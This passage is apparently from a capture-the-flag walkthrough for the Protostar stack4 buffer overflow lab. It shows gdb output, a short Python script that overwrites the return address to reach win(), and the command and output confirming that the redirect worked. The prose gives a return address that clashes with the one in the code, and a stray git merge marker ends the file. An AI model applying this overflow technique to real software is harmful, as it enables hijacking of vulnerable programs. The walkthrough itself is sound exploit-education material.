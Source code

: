 ```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```

We see that the **memory address** of `win()` is `0x80483f4`. Now we have *everything* needed to **create our exploit script**.

To **create our exploit script**, we first need to pass `QQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`, then pass `0x80484f4` in **little-edian** to properly **overwrite the return address** and **jump to** the `win()` function to complete the challenge!

Here is the exploit script stored in `/tmp`:

```python
import struct

padding = "QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKK"
ebp = "LLLL"
win_func = struct.pack("I", 0x80483f4)

print(padding + ebp + win_func)
```

Now enter this:

```bash
python /tmp/exploit.py | /opt/protostar/bin/stack4
```

Result:

```bash
code flow successfully changed
Segmentation fault (core dumped)
```

The **segfault** at the end is because we **overwritten the saved EBP** to an invalid address (`0x4c4c4c4c`).

## Resources

* [C Code](https://exploit.education/protostar/stack-four/)
* [Geeks for Geeks Article on Return Addresses](https://www.geeksforgeeks.org/dsa/how-is-return-address-specified-in-stack/)




>>>>>>> d51fa030b682fd964df43c4e39486d9bfaf78bbe:stack4/solution.md
